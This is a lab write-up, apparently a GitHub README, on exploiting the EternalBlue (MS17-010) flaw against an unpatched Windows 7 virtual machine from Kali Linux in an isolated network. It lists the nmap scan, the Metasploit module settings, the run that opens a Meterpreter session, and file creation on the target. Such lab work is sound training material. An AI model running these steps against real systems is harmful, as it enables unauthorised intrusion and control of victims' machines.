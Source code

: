 # 🔐 EternalBlue Exploit Lab (MS17-010)

**By:** Jason Torres Reyes  
**Objective:** Demonstrate how to exploit the EternalBlue vulnerability using Kali Linux and Metasploit on a Windows 7 target in a controlled virtual environment.

---

## 📁 Lab Setup

**Step 1:** Created two virtual machines in Oracle VirtualBox:
- **Target:** Windows 7 (unpatched)
- **Attacker:** Kali Linux

**Step 2:** Configured an **isolated internal network** on VirtualBox:  
- Subnet: `10.0.0.0/24`  
- Ensures both machines communicate only within this private network.

**Step 3:** Verified the IP of the attacker machine using:
```bash
ifconfig
```

---

## 🛠️ Network Scanning & Exploit Preparation

**Step 4:** Scanned the network to identify live hosts and services:
```bash
nmap -sV -O 10.0.0.0/24
```

**Step 5:** Launched Metasploit Framework:
```bash
msfconsole
```

**Step 6–7:** Searched for the EternalBlue exploit and selected the appropriate module:
```bash
search eternalblue
use 0
```

**Step 8–12:** Set the exploit options:
```bash
set RHOST 10.0.0.3       # Target IP
set LHOST 10.0.0.2       # Attacker IP
set LPORT 87             # Unused port on Kali
options                  # Confirm settings
```

**Step 13:** Ran the exploit:
```bash
run
```

---

## 🎯 Post-Exploitation

**Step 14:** Successfully got a Meterpreter session.

**Step 15–16:** Navigated to the target's file system and opened a shell.

**Step 17:** Created a folder and a file to simulate ethical compromise:
```cmd
cd C:\Users\vboxuser\Documents
mkdir "You_Have_Been_Hacked"
cd "You_Have_Been_Hacked"
echo This machine has been ethically hacked for educational purposes only. > readme.txt
```

**Step 18:** Visually confirmed folder and file creation on the target machine.

---


